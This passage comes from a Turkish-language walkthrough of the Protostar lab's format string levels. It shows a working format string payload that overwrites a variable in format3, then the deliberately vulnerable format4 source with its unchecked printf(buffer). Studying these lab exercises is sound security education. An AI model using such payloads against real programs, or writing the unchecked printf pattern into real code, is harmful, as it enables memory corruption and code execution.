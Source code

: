 ```bash
```
Yazdığımız A'ları 12'nci sırada gördük. Target değişkeninin adresini bulalım.
```bash
user@protostar:/opt/protostar/bin$ objdump -t format3 | grep target
080496f4 g     O .bss	00000004              target
```
Bu adresi A'ların yerine ekleyip üzerine yazmaya çalışalım.
```bash
user@protostar:/opt/protostar/bin$ echo $(python -c 'print "\xf4\x96\x04\x08" + "%12$n"') | ./format3
��
target is 00000004 :(
```
Eklediğim %x leri kaldırıp sadece adresi bıraktığımda (ki bu adresin uzunluğu 4 byte) hedefe 4 yazmış oluyorum. Benim hedefim ise `0x01025544` yazmak. Geriye `0x01025544 - 0x04 = 0x1025540 = 16930112` byte yazmam lazım.
```bash
user@protostar:/opt/protostar/bin$ echo $(python -c 'print "\xf4\x96\x04\x08" + "%16930112d"+"%12$n"') | ./format3
...
...
...
buralarda yüzlerce boşluk karakteri olacak verdiğimiz sayıdan dolayı
...
...
you have modified the target :)
```
Ve bu şekilde bu aşamayı da çzödük ancak bu aşamayı 1 ve 2 byte yazma yöntemleri ile de çözebilrdik. Onun için de şuralara bakabilirsiniz [Link1]() [Link2]()

## Format 4
Kaynak kod:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);   
}

int main(int argc, char **argv)
{
  vuln();
}
```